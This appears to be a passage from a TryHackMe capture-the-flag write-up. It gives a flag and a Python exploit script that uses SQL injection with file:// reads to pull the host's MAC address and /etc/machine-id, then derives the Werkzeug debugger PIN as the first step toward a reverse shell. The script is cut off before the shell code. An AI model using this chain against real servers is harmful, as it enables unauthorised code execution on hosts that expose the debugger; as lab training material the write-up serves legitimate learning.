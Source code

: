 ![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292663212-803694dc-ee34-4612-bf41-cfc987c056a4.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T092245Z&X-Amz-Expires=300&X-Amz-Signature=a97805b73e0605f14ea10158161355dfc74a75132e801416411e2e54c2ea04d5&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

`THM{SQli_SsRF_2_WeRkZeuG_PiN_ExPloit}`

Or, if you prefer to get a netcat shell, you can also do a script similar to this:

```python3
import hashlib
from itertools import chain
import requests
from bs4 import BeautifulSoup
import sys, time
from socket import socket, AF_INET, SOCK_STREAM
from threading import Thread
import subprocess

ip = str(sys.argv[1])
revip = str(sys.argv[2])
revport = int(sys.argv[3])

probably_public_bits = [
        'mcskidy',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

mac_url = f'http://{ip}:8000/download?id=\'+UNION+SELECT+\'file:///sys/class/net/eth0/address\'+AS+output_text%3b--+-'
try:
        r = requests.get(mac_url)
        mac_address = str(r.text.strip())
        getnode = int(mac_address.strip().replace(':', ''), base=16)
except:
        print('Try again!')


machine_url = f'http://{ip}:8000/download?id=\'+UNION+SELECT+\'file:///etc/machine-id\'+AS+output_text%3b--+-'
m = requests.get(machine_url)

private_bits = [
        str(getnode),# str(uuid.getnode()),  /sys/class/net/eth0/address
        str(m.text.strip())# get_machine_id(), /etc/machine-id, /proc/sys/kernel/random/boot_id, or /proc/self/cgroup
]

h = hashlib.sha1() #test with md5 and sha1
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]
```